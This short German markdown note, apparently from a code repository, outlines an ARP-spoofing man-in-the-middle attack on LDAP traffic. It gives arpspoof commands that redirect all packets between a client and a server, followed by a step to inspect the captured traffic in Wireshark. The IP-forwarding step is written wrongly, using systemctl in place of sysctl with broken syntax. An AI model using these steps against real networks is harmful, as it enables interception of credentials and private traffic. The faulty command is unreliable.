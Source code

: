 # LDAP Attack

## 1. Man-in-the-Middle 

1. Packet Weiterleitung aktivieren
```bash
systemctl -w net.ipv4.ip_forward = 1
```

2. Packete abfangen mithilfe *arpspoof*
```bash
arpspoof -i [Netzwerk Interface] -t [Client IP] [Server IP]
arpspoof -i [Netzwerk Interface] -t [Server IP] [Client IP]
```
> Dadurch werden alle Packete zwischen Server und Client abgefangen

3. Mit Wireshark die Kommunikation analysieren
